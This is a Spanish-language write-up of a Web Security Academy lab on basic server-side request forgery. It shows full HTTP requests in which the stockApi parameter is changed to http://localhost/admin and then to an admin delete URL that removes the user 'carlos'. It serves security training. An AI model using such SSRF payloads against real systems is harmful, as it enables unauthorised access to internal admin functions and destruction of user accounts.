 # Lab 1: Basic SSRF against the local server

Al acceder a un producto, se procede a darle clic a CHECK STOCK:

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Lo anterior genera la siguiente peticion:

```
POST /product/stock HTTP/2
Host: 0a3d000e04bc735185976db6006f0010.web-security-academy.net
Cookie: session=sJJg6IkReCjOdJE83MuyEfgw9UKSo744
Content-Length: 108
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Content-Type: application/x-www-form-urlencoded
Accept-Language: es-CO
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net/product?productId=14
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1
```

Y responde asi:

```
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3

872
```

Intentamos realizar un ataque de SSRF reemplazando el valor de stockApi:

```
POST /product/stock HTTP/2
Host: 0a3d000e04bc735185976db6006f0010.web-security-academy.net
Cookie: session=sJJg6IkReCjOdJE83MuyEfgw9UKSo744
Content-Length: 31
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Content-Type: application/x-www-form-urlencoded
Accept-Language: es-CO
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net/product?productId=14
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin
```

Y lo anterior da como respuesta:

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

La respuesta previa indica que el aplicativo web si es vulnerable a SSRF y podriamos por ejemplo intentar eliminar un usuario asi:

```
POST /product/stock HTTP/2
Host: 0a3d000e04bc735185976db6006f0010.web-security-academy.net
Cookie: session=sJJg6IkReCjOdJE83MuyEfgw9UKSo744
Content-Length: 54
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Content-Type: application/x-www-form-urlencoded
Accept-Language: es-CO
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net/product?productId=14
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin/delete?username=carlos
```

Al revisar la respuesta tendremos lo siguiente:

```
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=mWs0sJitRQeWTssrE0TM9i0tRpFMRWEi; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

Y si consumimos nuevamente la siguiente peticion:

```
POST /product/stock HTTP/2
Host: 0a3d000e04bc735185976db6006f0010.web-security-academy.net
Cookie: session=sJJg6IkReCjOdJE83MuyEfgw9UKSo744
Content-Length: 31
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Content-Type: application/x-www-form-urlencoded
Accept-Language: es-CO
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Origin: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a3d000e04bc735185976db6006f0010.web-security-academy.net/product?productId=14
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

stockApi=http://localhost/admin
```

Se lograra apreciar que se elimino el usuario:

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>
